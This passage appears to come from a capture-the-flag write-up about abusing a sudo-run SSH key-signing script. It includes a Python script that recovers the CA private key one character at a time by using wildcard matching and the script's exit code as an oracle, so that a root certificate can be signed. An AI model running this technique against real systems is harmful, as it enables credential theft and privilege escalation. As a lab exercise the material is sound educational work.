     * This part checks if the <mark style="color:red;">**`serial`**</mark> is a valid number. If it's not, the script displays an error message and exits.
*   **Sign the Public Key:**

    ```bash
    ssh-keygen -s "$ca_file" -z "$serial" -I "$username" -V -1w:forever -n "$principals" "$public_key_name"
    ```

    * Finally, the script uses the <mark style="color:red;">**`ssh-keygen`**</mark> command to sign the public key with the provided CA file, serial number, username, and principals. This command generates a certificate for the public key.

We attempt to brute-force the original key by trying each base64 character and appending them one by one with a wildcard <mark style="color:orange;">**`*`**</mark> at the end.

```python
import subprocess

def reconstruct_ssh_key(header, footer, ba64chars, key_length, sign_key_script, public_key_file, user, principal, serial):
    key = []
    line = 0
    
    while True:
        for char in ba64chars:
            # Construct a test key with *
            testKey = f"{header}\n{''.join(key)}{char}*"
            with open("ca-test", "w") as f:
                f.write(testKey)
                
            proc = subprocess.run(
                ["sudo", sign_key_script, "ca-test", public_key_file, user, principal, serial],
                capture_output=True
            )
            
            # If matched, Error code 1
            if proc.returncode == 1:
                key.append(char)
                # Add a newline every 70 characters
                if len(key) > 1 and (len(key) - line) % 70 == 0:
                    key.append("\n")
                    line += 1
                break
        else:
            break
    
    # Construct the final SSH key from the discovered characters
    caKey = f"{header}\n{''.join(key)}\n{footer}"
    print(caKey)
    with open("ca-it", "w") as f:
        f.write(caKey)
    return caKey

# Usage
header = "-----BEGIN OPENSSH PRIVATE KEY-----"
footer = "-----END OPENSSH PRIVATE KEY-----"
ba64chars = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/="
key_length = 70  # Typically the key is 70 characters per line

# Parameters for the signing process
sign_key_script = "/opt/sign_key.sh"
public_key_file = "mmb.pub"
user = "root"
principal = "root_user"
serial = "1"
```